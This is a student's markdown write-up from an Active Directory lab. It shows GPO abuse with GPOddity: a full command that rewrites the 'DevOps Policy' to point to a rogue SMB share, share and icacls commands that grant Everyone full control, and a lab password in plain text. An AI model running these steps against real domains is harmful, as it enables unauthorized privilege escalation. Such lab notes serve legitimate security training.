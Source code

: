 ![alt text](image-21.png)

![alt text](image-22.png)

* write_gpo_dacl student731 {0BF8D01C-1F62-4BDC-958C-57140B67D147}

![alt text](image-23.png)

### Now, run the GPOddity command to create the new template.
```
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student731' --password 'rMszB5MwUBww29' --command 'net localgroup administrators student731 /add' --rogue-smbserver-ip '172.16.100.31' --rogue-smbserver-share 'std731-gp' --dc-ip '172.16.2.1' --smb-mode none
```

![alt text](image-24.png)


### Another Ubuntu WSL session, create and share the stdx-gp directory

* wsluser@dcorp-std731:/mnt/c/Users/student731$> mkdir /mnt/c/AD/Tools/std731-gp 
* wsluser@dcorp-std731:/mnt/c/Users/student731$> cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std731-gp

### From a command prompt (Run as Administrator) on the student VM, run the following commands to allow 'Everyone' full permission on the stdx-gp share

* C:\Windows\system32>net share stdx-gp=C:\AD\Tools\std731-gp
* icacls "C:\AD\Tools\std731-gp" /grant Everyone:F /T

**icacls Displays or modifies discretionary access control lists (DACLs) on specified files and applies stored DACLs to files in specified directories**

![alt text](image-25.png)

### Verify if the gPCfileSysPath has been modified for the DevOps Policy.

* Get-DomainGPO -Identity 'DevOps Policy'

### Before
![alt text](image-26.png)

### After
![alt text](image-27.png)

**After waiting for 2 minutes, studentx should be added to the local administrators group on dcorp-ci**
